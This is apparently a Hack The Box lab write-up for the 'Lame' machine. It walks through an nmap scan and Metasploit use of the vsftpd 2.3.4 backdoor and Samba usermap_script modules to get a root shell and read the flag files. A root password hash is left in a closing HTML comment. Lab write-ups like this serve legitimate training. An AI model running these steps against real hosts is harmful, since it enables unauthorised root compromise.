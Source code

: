 Target: 10.10.10.3

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.10.3

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-14 23:29 PDT
Nmap scan report for 10.10.10.3
Host is up (0.058s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m46s, deviation: 2h49m44s, median: 44s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-05-15T02:31:12-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

### Findings:Looking for attack vectors

The victim machine runs outdated versions of ftp, ssh, and smbd. 
Look for possible exploits for these three services.


## Foothold:

exploit links:

[vsftpd 2.3.4](https://www.exploit-db.com/exploits/17491)

[samba 3.0.2](https://www.exploit-db.com/exploits/16320)


Metasploit
```
$ msfconsole
```

searching for vsftpd 2.3.4 exploits
```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.3
run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created
```

searching for samba 3.0.2 exploits
```
search samba 3.0.2

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script         2007-05-14       excellent  No     Samba "username map script" Command Execution
   1  exploit/linux/samba/lsa_transnames_heap    2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   2  exploit/solaris/samba/lsa_transnames_heap  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow


use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LPORT tun0
run
```

```
id

uid=0(root) gid=0(root)
```

```
cat /home/makis/user.txt

<redacted>
```

```
cat /root/root.txt

<redacted>
```

<!-- root:$1$p/d3CvVJ$4HDjev4SJFo7VMwL2Zg6P0 -->
